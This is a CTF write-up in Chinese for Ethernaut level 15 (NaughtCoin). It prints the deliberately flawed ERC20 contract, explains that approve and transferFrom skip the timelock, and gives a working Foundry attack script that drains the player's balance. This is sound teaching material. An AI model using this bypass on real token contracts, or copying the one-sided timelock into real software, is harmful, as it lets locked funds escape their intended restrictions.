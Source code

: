 # Ethernaut CTF Writeup

## Level 15 NaughtCoin

> 題目: https://ethernaut.openzeppelin.com/level/0x65Ff7C338fE34CC5C0F0cc97D3FA1B2681e39976

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

過關條件: 

- NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。

解法：

- 要繞過這個時間鎖定，我們可以利用 ERC20 合約的其他函數，例如 `approve` 和 `transferFrom`，這些函數不會觸發時間鎖定檢查
    - `approve` 函數： `player` 可以授權另一個地址（例如我們控制的合約或帳戶）在時間鎖定內代為轉移代幣。
    - `transferFrom` 函數： 透過授權的地址來調用 `transferFrom` 函數，轉移 `player` 的代幣。

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import {NaughtCoin} from "../src/level15/NaughtCoin.sol";

contract Attack is Script {
    NaughtCoin target = NaughtCoin(0xC37c8d456FD92a2886a25cC8824D8B0ba5a10c8F);
    function run() public {
        vm.startBroadcast();

        address myWallet = 0x7617....A898;
        uint myBalance = target.balanceOf(myWallet);
        console.log("Current balance is: ", myBalance);
        target.approve(myWallet, myBalance);
        target.transferFrom(myWallet, address(target), myBalance);
        console.log("New balance is: ", target.balanceOf(myWallet));

        vm.stopBroadcast();
    }
}

```